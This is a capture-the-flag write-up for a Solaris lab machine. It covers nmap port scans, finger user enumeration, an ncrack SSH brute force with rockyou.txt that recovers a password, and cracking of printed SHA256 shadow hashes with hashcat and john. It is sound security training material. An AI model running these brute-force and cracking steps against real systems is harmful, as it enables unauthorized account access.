 ## Title

### Lab Details 

- Difficulty: Easy 
- Type: Solaris 

#### Tasks

Q1: Which open TCP port is running the ```finger``` service?
 - nmap 10.10.10.76 -sT -A -T4 <!-- scanning for TCP -->
 
    ```
    ...
    PORT    STATE SERVICE VERSION
    79/tcp  open  finger?
    |_finger: No one logged on\x0D
    | fingerprint-strings: 
    |   GenericLines: 
    |     No one logged on
	...
    ```
  - nmap 10.10.10.76 -p- -A -T4 <!-- always good to scan full ports --> 
  
 
Q2: How many users can be found by enumerating the finger service? Considered as user if shown as pts.
  - Use finger-user-enum.pl perl script by pentestmonkey to enumerate for users 
  - Or Metasploit's module `auxiliary/scanner/finger/finger_users`
 -  https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum.pl
```
...
sammy@10.10.10.76: sammy           ???            ssh          <May  6 07:35> 10.10.14.68         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
...
``` 

Q3: What is the password for the sunny user on Sunday (The machine)?
- Found ssh port is 22022 and no other info on the user -> brute force
```
22022/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4 (protocol 2.0) 
```
- Used ncrack with rockyou.txt
```
ncrack -vv  --user sunny -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.76:22022

Starting Ncrack 0.7 ( http://ncrack.org ) at 2025-05-14 20:18 AEST

Discovered credentials on ssh://10.10.10.76:22022 'sunny' 'sunday'
```

Q4: What is the password for sammy 
 - A folder named backup can be found on (/) root folder 
 - A file named shadow.backup resides in the folder which contains sunny and sammy's SHA256 password hash
 - Can use john or hashcat to crack
 - hashcat will require both shadow.backup as well /etc/passwd and unshadow will need to be run against the files
 ```hashcat
    ##### Crack /etc/shadow 
    - Requires unshadow of /etc/passwd and /etc/shadow
    - Command: unshadow passwd shadow > hash
    - Command: hashcat -m 7400 hash /usr/share/wordlists/rockyou.txt

    Content of /etc/shadow 
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
 - John does not require unshadow to be run 
```
##### Brute forcing /etc/shadow
- john ./shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt 
    /etc/shadow
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Q5: What is flag located in sammy's home directory 




### Post Exploitation Note - Lesson Learned 

 - Always good to scan for all ports as `nmap -O -T4` or `nmap -sT -A -T4` does not scan for all ports which caused some ports to be missed during the initial enumeration.
 - As Q4 requires RCE for this machine and the first nmap only outputs 3 ports
```
map 10.10.10.76 -O -T4    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-14 19:30 AEST
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 44.37% done; ETC: 19:30 (0:00:16 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer
```
